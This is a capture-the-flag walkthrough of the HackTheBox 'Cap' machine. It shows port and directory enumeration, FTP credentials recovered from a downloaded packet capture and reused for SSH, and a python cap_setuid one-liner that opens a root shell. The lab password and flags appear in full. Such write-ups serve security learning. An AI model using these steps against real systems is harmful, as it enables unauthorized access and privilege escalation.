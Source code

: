 # HackTheBox-Cap Writeup | PCAP & SUID

![Screen Shot 2021-10-02 at 08 25 12](https://user-images.githubusercontent.com/87259078/135722831-39856c2c-ffde-42b7-a023-ebcb636c609f.png)

# Synopsis

“Cap” is marked as easy difficulty machine which features Gunicorn web server running a security dashboard. The dashboard gives access to Pcap files to analyze locally, one of the Pcap files has clear text password used to access FTP service. Because of password reuse we can able to login via SSH service. A python binary has given root’s capabilities to run, we take advantage of that to gain root’s shell.

# Skills Required

- Web Enumeration
- Pcap Analysis

# Skills Learned

- Exploiting 'Cap-SetUID' Functionality

# Enumeration

```
⛩\> nmap -p- -sV -sC -v -oA enum --min-rate 4500 --max-rtt-timeout 1500ms --open 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.16s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Mon, 07 Jun 2021 07:08:58 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Mon, 07 Jun 2021 07:08:52 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Mon, 07 Jun 2021 07:08:53 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, OPTIONS, HEAD
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
| http-methods:
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: gunicorn
|_http-title: Security Dashboard
```

Nmap reveals only three ports are open on machine. Let’s access HTTP service.

![Screen Shot 2021-06-07 at 22.50.48.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/F5E2CB1C-1BDD-48B7-9F40-C246DFCC6783/FBF530BA-1182-4A3F-B8B7-4692176503F6_2/Screen%20Shot%202021-06-07%20at%2022.50.48.png)

It running a security dashboard, it shows security events, failed logins and port scans IP. In left panel we see there are options to access network status, IP config and Pcap files for analysis. Let’s look into Pcap files.

![Screen Shot 2021-06-07 at 23.00.24.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/F5E2CB1C-1BDD-48B7-9F40-C246DFCC6783/C78D28B6-0064-4A63-848F-655F0741FAC4_2/Screen%20Shot%202021-06-07%20at%2023.00.24.png)

It shows us the captured packets information. Let’s download the Pcap file and open in wireshark.

![Screen Shot 2021-06-07 at 23.08.49.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/F5E2CB1C-1BDD-48B7-9F40-C246DFCC6783/4FA74A65-326E-4EFD-8B0B-6B69A02B848F_2/Screen%20Shot%202021-06-07%20at%2023.08.49.png)

The Wireshark reveals the information which has sent from my machine to target machine. Let’s run directory brute force on Pcap directory to find any  Pcap files.

```
⛩\> gobuster dir -u http://10.10.10.245/data/ -t 30 -w /usr/share/wordlists/dirb/common.txt -b 302,403,404
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.245/data/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   302,403,404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/07 23:11:44 Starting gobuster in directory enumeration mode
===============================================================
/0                    (Status: 200) [Size: 17147]
/00                   (Status: 200) [Size: 17147]
/01                   (Status: 200) [Size: 17147]
/02                   (Status: 200) [Size: 17144]
/03                   (Status: 200) [Size: 17144]
/1                    (Status: 200) [Size: 17147]
/2                    (Status: 200) [Size: 17144]
/3                    (Status: 200) [Size: 17144]
```

There are multiple files are inside data directory, let’s read the first file.

# Initial Access

![Screen Shot 2021-06-07 at 23.15.18.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/F5E2CB1C-1BDD-48B7-9F40-C246DFCC6783/0056B173-57F9-4415-8F04-1D779DBAB3F9_2/Screen%20Shot%202021-06-07%20at%2023.15.18.png)

Download the pcap file and open it in Wireshark application.

![Screen Shot 2021-06-07 at 23.34.43.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/F5E2CB1C-1BDD-48B7-9F40-C246DFCC6783/1B3FC3E4-420F-4CAC-AC11-2E5D7E01075C_2/Screen%20Shot%202021-06-07%20at%2023.34.43.png)

Credentials: Nathan : Buck3tH4TF0RM3!

This Pcap file has username and password for FTP service. Let’s use these credentials to login via SSH and read the user flag.

```
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ cat user.txt
5fa34bf4760d0eebd32795736e30bac1
```

# Privilege Escalation

Let’s run LinPeas to find any escalation paths.

```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

LinPeas result reveals that ‘cap_setuid’ capability is enabled on python3.8 binary. This simply means, the user has privilege to run this program as root.

[https://gtfobins.github.io/gtfobins/python/#capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)

```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

root@cap:~# whoami && id
root
uid=0(root) gid=1001(nathan) groups=1001(nathan)

root@cap:~# cat /root/root.txt
5f5c3232eca242555926ab18c70d43ad
```

We got access to root shell and read the root flag.

